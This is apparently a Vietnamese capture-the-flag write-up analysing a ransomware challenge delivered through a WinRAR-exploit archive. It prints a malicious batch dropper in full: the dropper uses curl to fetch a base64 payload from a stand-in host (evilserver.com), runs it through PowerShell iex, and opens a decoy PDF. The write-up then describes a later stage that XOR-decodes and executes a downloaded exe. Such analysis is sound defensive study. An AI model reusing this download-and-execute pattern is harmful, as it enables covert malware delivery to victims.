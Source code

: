 Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v, nhưng đã đổi thành zip extension. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

